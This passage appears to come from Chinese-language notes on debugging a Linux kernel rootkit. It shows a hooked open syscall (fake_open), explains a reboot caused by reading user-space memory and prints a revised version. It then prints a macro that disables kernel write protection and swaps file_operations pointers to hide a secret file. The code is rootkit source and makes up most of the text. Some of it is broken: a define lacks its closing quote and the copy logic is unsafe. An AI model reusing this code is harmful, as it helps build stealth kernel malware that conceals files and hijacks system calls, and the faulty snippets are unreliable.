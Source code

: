​	在低版本上的解决方案在于对用户空间数据操作的修改，Linux 内核存在Smep保护机制使得内核代码在操作用户空间的数据的时候会触发页错误，但是我们的现象是一直强制重启，因此在没有关闭smep进行测试的前提下，该论点并不确定。但是肯定的是，导致强制重启的原因是操作了用户空间的数据。

以fake_open为例子，修改前的代码：

~~~c
asmlinkage long
fake_open(const char __user *filename, int flags, umode_t mode)
{
    fm_alert("the fake_open is begin!n\n");
    if ((flags & O_CREAT) && strcmp(filename, "/dev/null") != 0) { // 操作用户空间数据
        fm_alert("open: %s\n", filename); // 操作用户空间数据
    }

    return real_open(filename, flags, mode);
}
~~~

修改后的代码：

~~~c
asmlinkage long
fake_open(const char __user *filename, int flags, umode_t mode)
{
    char *buf = (char *)kmalloc(1024, GFP_KERNEL);
    copy_from_user(buf, filename, 1024);
    fm_alert("the fake_open is begin!n\n");
    if ((flags & O_CREAT) && strcmp(buf, "/dev/null") != 0) {
        fm_alert("open: %s\n", buf);
    }
    long ret =  real_open(buf, flags, mode);
    kfree(buf);
    return ret;
}
~~~

### 问题三

​	对于文件隐藏来说，通过代码中的方式貌似在kernel 4.15及其高版本上无法运行成功：

主要代码：

~~~c
# define ROOT_PATH "/"
# define SECRET_FILE "032416_525.mp4
# define set_file_op(op, path, new, old)                            \
    do {                                                            \
        struct file *filp;                                          \
        struct file_operations *f_op;                               \
                                                                    \
        fm_alert("Opening the path: %s.\n", path);                  \
        filp = filp_open(path, O_RDONLY, 0);                        \
        if (IS_ERR(filp)) {                                         \
            fm_alert("Failed to open %s with error %ld.\n",         \
                     path, PTR_ERR(filp));                          \
            old = NULL;                                             \
        } else {                                                    \
            fm_alert("Succeeded in opening: %s\n", path);           \
            f_op = (struct file_operations *)filp->f_op;            \
            old = f_op->op;                                         \
                                                                    \
            fm_alert("Changing file_op->" #op " from %p to %p.\n",  \
                     old, new);                                     \
            disable_wp();                             \
            f_op->op = new;                                         \
            enable_wp();                              \
        }                                                           \
~~~